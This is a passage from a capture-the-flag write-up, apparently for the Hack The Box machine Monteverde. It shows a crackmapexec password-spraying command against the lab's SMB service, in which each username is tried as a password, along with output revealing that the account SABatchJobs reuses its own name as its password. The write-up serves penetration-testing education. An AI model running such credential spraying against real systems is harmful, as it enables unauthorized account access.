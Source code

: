     index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp     Name: svc-netapp        Desc: (null)



I did some looking at each use and group, but didn't identify anything
that interesting.

## Shell as mhope

### Credential Brute Force

After poking around at other things and finding very little, I came back
to the usernames I had. I created a file with one user per line, and one
of the things I checked was if any used their username as their password
by running the following `crackmapexec`. This can be a form a password
spraying, because I really only want to check one password for each
user. Because my list is small and this is HTB, I'll just try each user
with each username as the password. In a real environment, I'd only want
to try each user with their username:



    root@kali# crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success
    SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:dgalanos STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:SABatchJobs STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:smorgan STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-ata STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-bexec STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-netapp STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:dgalanos STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:SABatchJobs STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:smorgan STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:svc-ata STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:svc-bexec STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:svc-netapp STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:dgalanos STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
    ...[snip]...
